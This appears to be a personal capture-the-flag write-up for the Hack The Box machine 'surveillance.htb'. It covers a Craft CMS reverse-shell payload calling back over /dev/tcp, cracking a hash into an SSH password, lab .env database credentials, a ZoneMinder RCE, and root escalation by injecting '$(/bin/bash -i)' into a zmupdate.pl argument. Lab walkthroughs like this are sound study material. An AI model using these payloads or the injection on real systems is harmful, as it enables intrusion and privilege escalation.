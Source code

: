 # surveillance-reference
Host: surveillance.htb

Found admin page at: /admin/login

Uses Craft CMS (maybe vulns can be found)

There appears to be some sort of CLI that I can use to interact with the server

Exploit found from https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

Payload: `//bin/bash -c 'bash -i >& /dev/tcp/10.10.14.99/4444 0>&1'`

by reading the etc/hosts file we find a username matthew, which is likely our ssh login name

Now, by sifting through the database file, which i extracted beforehand, we find this interesting tidbit:
```
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```

So I can assume that that random set of numbers is the password of our ssh login. So let's try n crack it.
After popping it into crackstation.net, we get that this password is: starcraft122490

So let's try and log in to ssh.

So by a little bit of trial and error, we arrive at the following ssh credentials:
login: matthew@surveillance.htb
password: starcraft122490

Interesting Tidbit:
```
-rw-r--r-- 1 root root 0 May  2  2023 /usr/lib/node_modules/passbolt_cli/node_modules/psl/.env
-rw-r--r-- 1 www-data www-data 836 Oct 21 18:32 /var/www/html/craft/.env
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7
CRAFT_ENVIRONMENT=production
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false
PRIMARY_SITE_URL=http://surveillance.htb/
```


Maybe crafty is running with root privileges, maybe if we log in to the admin page, we can run commands as root 

By using the command

`mysql -u craftuser -p`

and then entering the password
We can connect to MariaDB from which there is a users table from which I use the command
select username,email,password from users;

to select the username, email and password of the users table.
We get the following data
username: admin
email: admin@surveillance.htb
password: $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe

This is obviously encrypted so let's decrypt it.
For this we'll use john

Now, the decrpytion will end only when I grow old and die.
So instead, we use another interesting tidbit we find.

In the hosts file, we can see that there is another service (zoneminder) which is running on port 8080.
We are, however, unable to connect to this port.

So, we will forward port 2222 on our machine to port 8080 of surveillance.htb
Command:
`ssh -L 2222:127.0.0.1:8080 matthew@surveillance.htb`

This will allow us to access the machine through port 2222: `http://127.0.0.1:2222`

Found an unauthenticated RCE exploit on:
https://github.com/rvizx/CVE-2023-26035

After stabilizing the obtained reverse shell I examined the linpeas analysis on matthew and found this interesting tidbit
```
-rw-r--r-- 1 root zoneminder 5265 Nov 18  2022 /usr/share/zoneminder/www/ajax/modals/storage.php
-rw-r--r-- 1 root zoneminder 1249 Nov 18  2022 /usr/share/zoneminder/www/includes/actions/storage.php

-rw-r--r-- 1 root zoneminder 3503 Oct 17 11:32 /usr/share/zoneminder/www/api/app/Config/database.php
		'password' => ZM_DB_PASS,
		'database' => ZM_DB_NAME,
		'host' => 'localhost',
		'password' => 'ZoneMinderPassword2023',
		'database' => 'zm',
				$this->default['host'] = $array[0];
			$this->default['host'] = ZM_DB_HOST;
-rw-r--r-- 1 root zoneminder 11257 Nov 18  2022 /usr/share/zoneminder/www/includes/database.php
```

This means that we can login to the ZoneMinder database, and mostly find the password to the zoneminder user there.

I am doing this because I found that the zoneminder user can run all .pl files as sudo. So we can just do sudo su to become root.

Now I didnt do most of this bit by myself, so.... well, I'll just write the steps in my own words.

So, it turns out that a certain file called zmupdate.pl is actually vulnerable to some command injection, which can be found out through some sophisticated googling. Since zoneminder is running as root on the computer, it will return a root shell that we can exploit.
So, by running this command and then stabilizing the shell, we can become root.
``` bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023
```
I think there are other ways to privilege escalate but I'm not sure how, I assume we can google each file and find that it's vulneable.
